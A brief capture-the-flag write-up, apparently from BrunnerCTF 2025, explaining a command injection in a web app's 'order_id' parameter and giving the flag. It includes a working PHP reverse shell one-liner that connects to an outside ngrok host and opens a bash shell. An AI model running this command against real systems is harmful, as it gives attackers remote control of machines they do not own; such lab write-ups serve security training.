 There is a command injection in the `order_id` GET parameter.  You can read `index.php` to find the actual injection point.

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/caffeine-injection.png)

I used a PHP reverse shell to get shell as user.
```
php -r '$sock=fsockopen("0.tcp.ap.ngrok.io",18271);exec("/bin/bash <&3 >&3 2>&3");'
```

Flag: `brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}`


Solved by: benkyou